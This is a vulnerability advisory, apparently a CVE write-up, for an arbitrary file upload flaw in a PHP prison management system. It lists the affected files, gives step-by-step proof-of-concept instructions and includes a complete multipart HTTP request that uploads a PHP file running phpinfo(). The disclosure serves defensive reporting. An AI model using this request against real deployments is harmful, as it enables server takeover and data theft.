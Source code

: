 # Prison Management System Using PHP has arbitrary file upload vulnerability

BUG_Author:

AoBo Li

Affected version:

Prison Management System Using PHP V1.0

Vendor:

Fast5

Software:

https://www.sourcecodester.com/sql/17287/prison-management-system.html

Vulnerability File:

/Employee/edit-photo.php

/Admin/add-admin.php



Description:



**1. Vulnerability Description**

The application allows authenticated users to upload files to the server. However, the file upload mechanism does not properly validate the file types being uploaded. As a result, it is possible to upload executable files, which can then be executed on the server.

**2. Proof of Concept (PoC)**

The following steps demonstrate how to exploit the arbitrary file upload vulnerability:

1. **Log in as admin or user,if log in as admin goto add-admin.php, if log in as user goto edit-photo.php.they are same.**
2. **Navigate to the file upload feature.**
3. **Upload a malicious file with a disguised extension (e.g., 1.jpg).**
4. **Rename it to a malicious extension file (e.g., 1.php).**
5. **The application saves the file on the server without proper validation.**
6. **Access the uploaded file via a direct URL and execute it.**

![image](https://github.com/Aa1b/mycve/blob/main/Image/image-20240925204658976.png)

The data packet is as follows

```
POST /prison/Admin/add-admin.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------356316614838182701192715677466
Content-Length: 828
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/prison/Admin/add-admin.php
Cookie: PHPSESSID=jrvn8lh2tgi6mdfm6qlpuastm1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtusername"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtfullname"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtpassword"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtphone"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/png
<?php
phpinfo()>
?>
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="btncreate"


-----------------------------356316614838182701192715677466--

```

![image](https://github.com/Aa1b/mycve/blob/main/Image/image-20240925205346343.png)

![image](https://github.com/Aa1b/mycve/blob/main/Image/image-20240925210016665.png)

![image](https://github.com/Aa1b/mycve/blob/main/Image/image-20240925205632083.png)



**3. Impact**



The impact of this vulnerability can be severe. An attacker can upload and execute arbitrary code on the server, leading to:

- Unauthorized access to the server.
- Data leakage or manipulation.
- Server compromise and potential lateral movement within the network.